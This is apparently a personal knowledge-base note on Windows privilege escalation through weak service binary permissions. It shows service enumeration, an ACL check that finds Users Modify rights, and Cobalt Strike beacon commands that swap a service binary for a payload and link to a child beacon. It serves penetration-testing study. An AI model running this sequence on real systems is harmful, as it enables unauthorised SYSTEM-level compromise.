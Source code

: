 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Weak Service Binary Permissions]]  
___

## Description:  

Enumerate services and look for binaries that have weak permissions.

You can see the services installed on a machine by opening **services.msc**, or via the **sc** command line tool.

```
C:\>sc query

SERVICE_NAME: Appinfo
DISPLAY_NAME: Application Information
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: AudioEndpointBuilder
DISPLAY_NAME: Windows Audio Endpoint Builder
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Or the **Get-Service** PowerShell cmdlet.

```
PS C:\> Get-Service | fl

Name                : AJRouter
DisplayName         : AllJoyn Router Service
Status              : Stopped
DependentServices   : {}
ServicesDependedOn  : {}
CanPauseAndContinue : False
CanShutdown         : False
CanStop             : False
ServiceType         : Win32ShareProcess

Name                : ALG
DisplayName         : Application Layer Gateway Service
Status              : Stopped
DependentServices   : {}
ServicesDependedOn  : {}
CanPauseAndContinue : False
CanShutdown         : False
CanStop             : False
ServiceType         : Win32OwnProcess

```

WMI can be used to pull a list of every service and the path to its executable well using CobaltStrike.

```
beacon> run wmic service get name, pathname

Name                                      PathName
ALG                                       C:\Windows\System32\alg.exe
AppVClient                                C:\Windows\system32\AppVClient.exe
AmazonSSMAgent                            "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"
[...snip...]
Vuln-Service-1                            C:\Program Files\Vuln Services\Service 1.exe

```


Use PowerShell to enumerate the permissions of the binaries being run by the services.

**Look for modify permissions

```
beacon> powershell Get-Acl -Path "C:\Program Files\Vuln Services\Service 3.exe" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vuln Services\Service 3.exe
Owner  : BUILTIN\Administrators
Group  : WKSTN-1\None
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  Modify, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
Audit  : 
Sddl   : O:BAG:S-1-5-21-689523297-2952850621-452819511-513D:PAI(A;;FA;;;SY)(A;;FA;;;BA)(A;;0x1301bf;;;BU)(A;;0x1200a9;;
         ;AC)(A;;0x1200a9;;;S-1-15-2-2)

```

This allows us to simply overwrite the binary with something else (make sure you take a backup first).
```
beacon> run sc stop Vuln-Service-3
beacon> upload C:\Payloads\Service 3.exe
beacon> ls
[*] Listing: C:\Program Files\Vuln Services\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 282kb    fil     03/03/2021 11:38:24   Service 3.exe

beacon> run sc start Vuln-Service-3
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.231
```




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (10:15 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
